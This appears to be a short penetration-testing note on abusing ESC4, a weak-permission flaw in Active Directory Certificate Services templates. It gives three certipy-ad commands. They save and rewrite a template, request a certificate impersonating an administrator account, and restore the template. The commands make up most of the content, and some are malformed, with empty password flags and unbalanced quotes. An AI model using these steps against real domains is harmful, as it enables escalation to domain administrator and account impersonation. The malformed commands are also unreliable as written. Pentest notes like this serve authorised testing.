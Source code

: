 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Certificate templates are Active Directory objects with security descriptors that define the permissions AD principals have over them. Weak permissions or excessive access rights can allow non-privileged users to modify sensitive security settings in the template—such as defining EKUs, enabling SANs, or disabling manager approval—making it vulnerable to ESC1-3 exploitation techniques.


# Abusing ESC4 Certificates

Note: We need to use certipy to save the initial configuration of the certificate so that it can be restored later, and it will also modify the template configuration, which will make it vulnerable to ESC1-3.

## Certipy:

- `certipy-ad template -u "afsimmons@megacorpone.com" -p -template 'Vulnerable ESC4 template' -save-old'
-  `certipy-ad req -u "afsimmons@megacorpone.com" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable ESC4 template' -alt 'xadmin@megacorpone.com'
- `certipy-ad template -u "afsimmons@megacorpone.com" -p -template 'vulnerable ESC4 template' -configuration 'Vulnerable ESC4 template.json'


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
